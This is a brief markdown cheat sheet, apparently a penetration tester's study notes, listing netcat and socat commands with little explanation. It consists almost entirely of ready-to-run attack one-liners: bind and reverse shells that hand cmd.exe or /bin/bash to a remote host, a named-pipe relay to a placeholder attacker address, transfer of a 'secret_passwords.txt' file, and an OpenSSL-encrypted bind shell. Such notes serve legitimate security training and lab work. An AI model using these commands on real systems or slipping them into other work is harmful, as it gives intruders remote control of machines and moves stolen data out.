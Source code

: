```yaml
---
category: Uncategorized
tags: []
---
```

netcat and socat

Transferring files:

~~~bash
nc -nlvp 4444 > incoming.exe

nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
~~~

Binding session to process/executable:

~~~bash
nc -nlvp 4444 -e cmd.exe

nc -nv 10.11.0.22 4444

nc -v -n 10.10.14.32 7777 -e C:\windows\System32\cmd.exe
~~~

Reverse Shell:

~~~bash
nc -nlvp 4444

nc -nv 10.11.0.22 4444 -e /bin/bash
~~~

Netcat Relay (for netcat without -e option)

~~~bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc <ATTACKERIP> <ATTACKERPORT> 1>/tmp/backpipe
~~~

NetCat vs SoCat

~~~bash
nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80
~~~

~~~bash
nc -lvp localhost 443

socat TCP4-LISTEN:443 STDOUT
~~~

SoCat File Transfers

~~~bash
socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
~~~

SoCat Reverse Shells

~~~bash
socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash
~~~

SoCat Encrypted Bind Shells

~~~bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

socat - OPENSSL:10.11.0.4:443,verify=0
~~~

